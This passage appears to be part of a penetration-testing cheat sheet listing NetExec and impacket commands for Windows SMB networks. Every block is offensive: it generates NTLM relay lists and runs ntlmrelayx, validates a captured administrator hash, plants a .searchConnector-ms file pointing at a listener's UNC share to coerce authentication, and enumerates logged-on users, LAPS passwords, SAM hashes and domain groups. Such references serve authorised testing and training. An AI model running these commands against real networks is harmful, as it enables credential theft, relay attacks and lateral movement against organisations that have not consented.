```powershell
# Get relay list
nxc smb 172.16.1.0/24 --gen-relay-list relay.txt
sudo proxychains4 -q impacket-ntlmrelayx -t 172.16.1.1 -smb2support --no-http

# Use list to connect and get hashes
sudo proxychains4 -q ntlmrelayx.py -tf relay.txt -smb2support --no-http

# Validate credentials
proxychains4 -q nxc smb 172.16.1.5 -u administrator -H 30b3783ce2abf1af70f77d0660cf3453 --local-auth
```

### <mark style="color:yellow;">Searchconnect-ms</mark>

```powershell
# Create file .searchConnector-ms
proxychains -q nxc smb 172.16.1.1 -u john -p pass123 -M drop-sc -o URL=\\\\10.10.11.10\\secret FILENAME=secret

# Listen with NLTM relay
sudo proxychains4 -q impacket-ntlmrelayx -t 172.16.1.1 -smb2support --no-http
```

### <mark style="color:yellow;">Enumeration</mark>

```powershell
# Logged on users
nxc smb 10.129.203.121 -u john -p pass123 --loggedon-users

# Filter user
nxc smb 10.129.203.121 -u john -p pass123 --loggedon-users --loggedon-users-filter julio

# Enumerate domain computers
nxc smb 10.129.203.121 -u john -p pass123 --computers

# Enumerate LAPS
nxc smb 10.129.203.121 -u john -p pass123 -M laps
nxc smb 10.129.203.121 -u john -p pass123 --laps
nxc smb 10.129.203.121 -u john -p pass123 --laps --sam

# Get usernames
nxc smb 10.129.203.121 -u john -p pass123 --rid-brute

# Localgroups
nxc smb 10.129.203.121 -u john -p pass123 --local-groups

# Domain groups
nxc smb 10.129.203.121 -u john -p pass123 --groups  

# Group members
nxc smb 10.129.203.121 -u john -p pass123 --groups Administrators
```
